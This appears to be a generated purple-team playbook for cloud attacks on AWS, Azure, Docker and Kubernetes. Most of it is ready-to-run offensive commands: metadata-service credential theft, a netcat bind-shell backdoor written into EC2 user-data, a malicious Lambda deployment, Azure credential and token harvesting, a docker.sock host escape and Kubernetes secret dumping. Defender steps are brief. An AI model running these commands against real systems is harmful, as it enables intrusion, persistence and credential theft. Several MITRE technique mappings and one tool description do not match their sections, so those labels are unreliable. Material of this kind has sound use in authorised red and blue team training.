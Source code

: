 # Cloud attack playbook

## AWS exploitation & defence

### Attack paths

* Initial access: Abuse IAM misconfigurations (weak roles, keys, or AssumeRole policies).
* Persistence: Backdoor EC2 via SSM, user data, or malicious Lambda functions.
* Exfiltration: Exploit overly permissive S3 buckets or VPC peering.

#### Initial access: AWS credential theft

MITRE: [T1078.004 - Valid Accounts: Cloud Accounts](https://attack.mitre.org/techniques/T1078/004/)

Tools:

```bash
# Check for metadata service exposure (IMDSv1)  
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/  
# Enumerate IAM roles with AWS CLI  
aws iam list-roles --query 'Roles[?AssumeRolePolicyDocument.Statement[].Principal.AWS==`*`].Arn'  
```

Purple team actions:

- [x] Red: Use Pacu to automate IAM privilege escalation.
- [x] Blue: Enforce IMDSv2 and monitor AssumeRole anomalies with GuardDuty.

#### Persistence: Backdooring Lambda/EC2

MITRE: [T1574.006 - Hijack Execution Flow: LD_PRELOAD](https://attack.mitre.org/techniques/T1574/006/)

Tools:

```bash
# Backdoor EC2 via user-data  
echo 'nc -lvp 4444 -e /bin/sh' >> /var/lib/cloud/scripts/user-data  
# Persist via Lambda (Python example)  
aws lambda create-function --function-name "LegitFunction" --runtime python3.8 --role <backdoored-role-arn> --handler lambda_function.handler --zip-file fileb://malicious.zip  
```

Purple team actions:

- [x] Red: Test Lambda persistence with Lambda-Proxy.
- [x] Blue: Use AWS Config to audit Lambda execution roles and EC2 user-data modifications.

## Azure exploitation & defence

### Attack paths

* Initial access: Phish Azure AD credentials or exploit OAuth app consent flaws.
* Privilege escalation: Abuse managed identities or Role-Based Access Control (RBAC) gaps.
* Lateral movement: Leverage Azure Resource Manager (ARM) APIs for cross-tenant attacks.

#### Initial access: Azure AD Phishing

MITRE: [T1098.001 - Account Manipulation: Additional Cloud Credentials](https://attack.mitre.org/techniques/T1098/001/)

Tools:

```powershell
# Harvest OAuth tokens with MicroBurst  
Import-Module .\Get-AzurePasswords.ps1  
Get-AzurePasswords -ExportTo CSV  
```

Purple team actions:

- [x] Red: Simulate token theft with Stormspotter.
- [x] Blue: Enable Azure AD Identity Protection and conditional access policies.

#### Privilege escalation: Managed identity abuse

MITRE: [T1530 - Data from Cloud Storage](https://attack.mitre.org/techniques/T1530/)

Tools:

```bash
# List managed identities  
az identity list --query "[].{Name:name, PrincipalId:principalId}"  
# Steal tokens from a VM with managed identity  
curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/' -H "Metadata: true"  
```

Purple team actions:

- [x] Red: Use ROADtools to pivot across tenants.
- [x] Blue: Restrict managed identity scope via Azure Policy.

## Container breakouts

### Attack paths

* Initial Access: Exploit exposed Docker APIs or vulnerable container images.
* Privilege Escalation: Abuse kernel capabilities (e.g., CAP_SYS_ADMIN) or host mounts.
* Persistence: Deploy malicious sidecar containers in Kubernetes.

Privilege Escalation: Docker Sock Exploit

MITRE: [T1611 - Escape to Host](https://attack.mitre.org/techniques/T1611/)

Tools:

```bash
# Escape via Docker socket  
docker -H unix:///var/run/docker.sock run -v /:/host -it alpine chroot /host bash  
# Check for dangerous capabilities  
capsh --print | grep "cap_sys_admin"  
```

Purple team actions:

- [x] Red: Use CDK for automated container escapes.
- [x] Blue: Deploy Falco to monitor `docker.sock` access.

## Kubernetes cluster attacks

### Attack paths

* Initial access: Compromise kubelets, exposed dashboards, or weak kubeconfig files.
* Lateral movement: Abuse service account tokens or vulnerable admission controllers.
* Persistence: Deploy shadow pods or cronjobs in high-privilege namespaces.

#### Lateral Movement: Compromised Service Account

MITRE: [T1526 - Cloud Service Discovery](https://attack.mitre.org/techniques/T1526/)

Tools:

```bash
# List secrets (including service account tokens)  
kubectl get secrets --all-namespaces  
# Use token to query Kubernetes API  
curl -k -H "Authorization: Bearer <token>" https://<k8s-api>/api/v1/namespaces  
```

Purple team actions:

- [x] Red: Simulate RBAC bypass with rbac-tool.
- [x] Blue: Enable Kubernetes audit logs and enforce network policies.

## Purple team outcomes

### Red team

* Document attack TTPs (Tactics, Techniques, Procedures) and evasion methods.

### Blue team

* Generate detection rules (Sigma, KQL) and harden configurations.

### Final deliverable

A joint report mapping exploits to mitigations, with tabletop exercises for validation.

Style notes:

* Uses clear headings for each cloud platform.
* Balances offense/defense with actionable Purple Team tasks.
* Modular—teams can focus on AWS/Azure/K8s separately.
